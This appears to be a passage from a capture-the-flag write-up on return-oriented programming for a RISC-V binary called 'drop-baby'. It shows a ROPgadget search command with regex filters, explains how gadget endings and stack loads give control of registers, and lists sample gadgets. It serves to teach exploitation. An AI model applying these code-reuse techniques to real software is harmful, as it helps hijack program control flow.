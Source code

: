 Here is a one liner to search for gadgets in our binary:

```bash
ROPgadget --binary drop-baby --align 4 \
  | grep -E 'sw|swsp|lw|lwsp|mv|sub|add|xor|jr|jalr|ret|ecall' \
  | grep -E '; (ret)|((c\.)?j(al)?r (x[0-9]{1,2}|zero|ra|sp|gp|tp|s[0-9]{1,2}|t[0-6]|fp|a[0-7]))$' \
  | tee gadgets.log
```

* The first regex will filter gadgets that have only relevant opcodes to us.
* The second regex is about how the gadget should end. All of our gadgets will end with either `jr` or `jalr` with a register as argument.
  * `ret` is the same as `jalr x0, ra, 0`
  * `ret` is the same as `jr ra`
  * If we are doing function calls, we want our gadgets to **not** end with `j(al)?r ra`. This is because the function call will use the `ra` register in the `ret` instruction to return to our next ROP gadget.
* We are interested in the `lwsp` gadgets as these gadgets can directly load values from the stack (which we control) into our registers
* `ecall` is uses for invoking syscalls, but we have libc statically linked so we don't use it.
* Since our binary supports the `c.` prefix, we can also `--align 2` instead of `4`.

Here are some example good quality gadgets:

```asm
# Control a bunch or registers
0x0001a7e8:
  c.lwsp ra, 0x2c(sp) ;
  c.lwsp s0, 0x28(sp) ;
  c.lwsp s1, 0x24(sp) ;
  c.lwsp s2, 0x20(sp) ;
  c.lwsp s3, 0x1c(sp) ;
  c.lwsp s5, 0x14(sp) ;
  c.lwsp s6, 0x10(sp) ;
  c.lwsp s7, 0xc(sp)  ;
  c.lwsp s8, 8(sp)    ; 
  c.mv a0, s4         ;
  c.lwsp s4, 0x18(sp) ;
  c.addi16sp sp, 0x30 ;
  c.jr ra

# Control a0, a1, a2 function arguments
0x00026900:
  c.lwsp a2, 0x10(sp) ;
  c.lwsp a1, 0x18(sp) ;
  c.lwsp a0, 0x14(sp) ;
  c.mv a5, s8 ;
  c.li a6, 0 ;
  c.li a4, 0 ;
  c.mv a3, s6 ;
  c.jalr s0

# Gadget that does not use `ra` to jump.
# Instead, it controls `ra`, so we can return from a function call back
# to our ROP chain.
0x0001a410:
  c.lwsp ra, 0x1c(sp) ;
  c.addi16sp sp, 0x20 ;
  c.jr a5
```
